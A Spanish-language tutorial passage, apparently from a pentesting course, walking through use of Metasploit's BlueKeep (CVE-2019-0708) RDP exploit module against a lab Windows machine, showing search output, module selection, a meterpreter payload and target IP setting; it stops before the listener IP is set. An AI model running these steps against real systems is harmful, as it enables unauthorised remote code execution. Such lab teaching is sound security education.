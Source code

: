 # Metasploit (explotación avanzada)

En el reporte que sacamos con `Nessus` encontramos una vulnerabilidad en la maquina victima `Windows` que se llama `BlueKeep` es una vulnerabilidad muy critica que salio en `2019` la cual permitia ejecutar codigo de forma remota sin credenciales, si tenias el `RDP` instalado, ya que este programa era muy comun en los equipos de `Windows` y por eso fue una de las vulnerabilidades mas grandes que ha habido.

Metiendonos en `metasploit` su consola, buscaremos por dicha vulnerabilidad:

```shell
search bluekeep
```

Info:

```
Matching Modules
================

   #  Name                                            Disclosure Date  Rank    Check  Description
   -  ----                                            ---------------  ----    -----  -----------
   0  auxiliary/scanner/rdp/cve_2019_0708_bluekeep    2019-05-14       normal  Yes    CVE-2019-0708 BlueKeep Microsoft Remote Desktop RCE Check
   1  exploit/windows/rdp/cve_2019_0708_bluekeep_rce  2019-05-14       manual  Yes    CVE-2019-0708 BlueKeep RDP Remote Windows Kernel Use After Free


Interact with a module by name or index. For example info 1, use 1 or use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```

Y nos encontrara un `auxiliar` y un `exploit`.

El `auxiliar` nos servira para escanear la maquina victima y verificar si es vulnerable a dicho `exploit`, pero en este caso como ya lo sabemos, iremos directos al `exploit`, pero antes de entrar vemos en la parte de `Rank` que esta como `Manual` cuando en otros aparecia como `Excellent`, esto significa que es mas complicado de utilizar ya que a lo mejor para que el `exploit` funcione correctamente tendremos que hacerle algunos cambios nosotros a nivel de codigo fuente o demas cosas.

Por lo que vamos a seleccionarlo:

```shell
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```

En este caso nos viene un `payload` preconfigurado, en este caso es un `meterpreter` que es una `shell` mucho mas avanzada dondo nos permitira hacer bastantes cosas a nivel de terminal.

Establecemos la IP de la maquina victima `Windows`:

```shell
set RHOSTS 192.168.16.132
```

Establecemos nuestra IP para la `shell`:
